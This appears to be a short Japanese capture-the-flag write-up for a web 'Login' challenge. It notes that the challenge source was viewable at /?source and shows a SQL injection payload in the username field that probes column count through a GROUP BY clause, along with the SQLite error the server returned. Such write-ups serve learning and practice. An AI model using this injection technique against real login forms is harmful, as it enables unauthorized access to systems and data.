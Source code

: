 ## Login

adminでのログインはできてmagicの値は取得できたが、時間がなくてフラグを取得できなかった。
問題のソースコードがあるのも気づかなかった。

- 問題ソースコード

/?sourceにアクセスすることで確認できたらしいです。  
確かにHTMLソース内にコメントアウトされていた。

usernameでSQLインジェクションができる。  
サーバからのレスポンスにSQLエラーが含まれるため、そこから判別していく。

`username=admin'group+by+3;--+-&password=test`

```html
<br />
<b>Warning</b>:  SQLite3::querySingle(): Unable to prepare statement: 1, 1st GROUP BY term out of range - should be between 1 and 2 in <b>/var/www/html/index.php</b> on line <b>21</b>
```
